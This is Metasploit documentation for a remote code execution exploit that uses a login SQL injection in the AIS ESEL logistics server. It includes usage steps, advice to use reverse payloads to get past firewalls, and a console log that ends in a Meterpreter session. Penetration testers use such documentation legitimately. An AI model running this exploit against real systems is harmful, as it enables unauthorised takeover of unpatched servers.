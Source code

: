 ## Description

    This module will execute an arbitrary payload on an "ESEL" server used by the
    AIS logistic software. The server typically listens on port 5099 without TLS.
    There could also be server listening on 5100 with TLS but the port 5099 is
    usually always open.
    The login process is vulnerable to an SQL Injection. Usually a MSSQL Server
    with the sa user is in place.

    This module was verified on version 67 but it should also run on lower versions.
    An fixed version was created by AIS in September 2017. However most systems
    have not been updated.`

    In regard to the payload, unless there is a closed port in the web server,
    you dont want to use any bind payload. You want a "reverse" payload,
    probably to your port 80 or to any other outbound port allowed on the firewall.

    Currently, one delivery method is supported

    This method takes advantage of the Command Stager subsystem. This allows using
    various techniques, such as using a TFTP server, to send the executable. By default
    the Command Stager uses 'wcsript.exe' to generate the executable on the target.

    NOTE: This module will leave a payload executable on the target system when the
    attack is finished.

## Vulnerable Application

  The application is not publicily available. It was tested on Esel version 67 but should also work an versions below.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ais_esel_server_rce`
  3. `set RHOSTS <IP>`
  4. `check`
  5. **Verify** "Server is vulnerable"
  6. `run`
  7. **Verify** Session opened


## Scenarios

  msf5 > use exploit/windows/misc/ais_esel_server_rce 
  msf5 exploit(windows/misc/ais_esel_server_rce) > set rhosts 10.66.75.212
  rhosts => 10.66.75.212
        msf5 exploit(windows/misc/ais_esel_server_rce) > check
        [+] 10.66.75.212:5099 - The target is vulnerable.
  msf5 exploit(windows/misc/ais_esel_server_rce) > run

  [*] Started reverse TCP handler on 10.66.75.208:4444 
  [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
  [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
  [*] 10.66.75.212:5099 - Command Stager progress -   1.47% done (1499/102292 bytes)
  [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
  [*] 10.66.75.212:5099 - Command Stager progress -   2.93% done (2998/102292 bytes)
  [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
        ...
  [*] 10.66.75.212:5099 - Command Stager progress -  99.55% done (101827/102292 bytes)
  [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
  [*] Sending stage (179779 bytes) to 10.66.75.212
  [*] 10.66.75.212:5099 - Command Stager progress - 100.00% done (102292/102292 bytes)
  [!] 10.66.75.212:5099 - The payload is left on the client in the %TEMP% Folder of the corresponding user.
  [*] 10.66.75.212:5099 - Stager should now be executed. Waiting for 20 seconds..
  [*] Meterpreter session 1 opened (10.66.75.208:4444 -> 10.66.75.212:57107) at 2019-03-27 11:04:29 +0100

  meterpreter > getuid
  Server username: NT Service\MSSQL$AIS


